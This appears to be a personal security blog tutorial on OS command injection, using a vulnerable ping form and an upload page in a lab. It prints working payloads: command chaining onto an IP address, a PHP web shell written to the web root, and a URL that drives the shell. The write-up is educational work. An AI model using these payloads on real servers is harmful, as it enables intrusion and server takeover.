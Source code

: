 ```yaml
---
layout: default
title : muzec - OS Command Injection Attacks
---
```


![image](https://user-images.githubusercontent.com/69868171/117147074-e2f51b80-ad82-11eb-9b2e-2aa32fa81df3.png)



OS command injection is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data from a browser. 

An attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.


One example could be a search function which spawns a shell and runs a script to query through legacy records of a company. Another more obvious example could be a network monitoring application which allows you to issue Ping commands from the underlying operating system.
                                              
### How Do Command Injection Take Place??

There are many situations when the developers try to include some functionalities into their web application by making the use of the operating system commands. However, if the application passes the user-supplied input directly to the server without any validation, thus the application might become vulnerable to command injection attacks.

Let us use the second described example of an application that allows a user to send ICMP (ping) requests over the network. The input field which is used to specify the target IP address for the ping command is not properly validated on the server-side. An attacker could leverage this by appending an OS Command to the IP address and storing the result in a publicly accessible file;

```8.8.8.8 & whoami > /var/www/html/public/whoami.txt```

In the screenshot below, we can see a very simple OS command injection attack where the output of the query is directly shown back to the user. In this case there is no need to save the output of the command in a file because we can directly see it on screen.

![image](https://user-images.githubusercontent.com/69868171/117151581-38cbc280-ad87-11eb-90d3-d1385a8dac36.png)

The previous command already showed that it is possible to create an accessible file, so why not create a simple interface that enables remote access and control to the web server (also know as a web shell)?

```8.8.8.8 & echo "<?php echo shell_exec($_GET['cmd']); ?>" > /var/www/html/public/shell.php```

Let jump to some example below;

![image](https://user-images.githubusercontent.com/69868171/117152293-e2ab4f00-ad87-11eb-96e4-ed542e397236.png)
We have some upload page now let try to upload a webshell ```<?php echo shell_exec($_GET['cmd']); ?>``` save in a file in php and upload it.

![image](https://user-images.githubusercontent.com/69868171/117152625-3322ac80-ad88-11eb-92dd-7aed49967895.png)

Since what we upload is store in the upload directory let try to access it.

![image](https://user-images.githubusercontent.com/69868171/117152820-606f5a80-ad88-11eb-83a0-2ea75d9bdeab.png)

![image](https://user-images.githubusercontent.com/69868171/117152859-6c5b1c80-ad88-11eb-8354-0bb076f17bc6.png)

Now what we have to do is to access the file and edit the url to ```http://10.150.150.11/upload/2/shell.php?cmd=``` adding a cmd parameter since we add it in the web shell.

![image](https://user-images.githubusercontent.com/69868171/117153226-c52ab500-ad88-11eb-8a45-01199d618f3d.png)

As of now, we are confirmed that the application which we are trying to surf is suffering from command injection vulnerability we can now try to get a shell back or move on.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

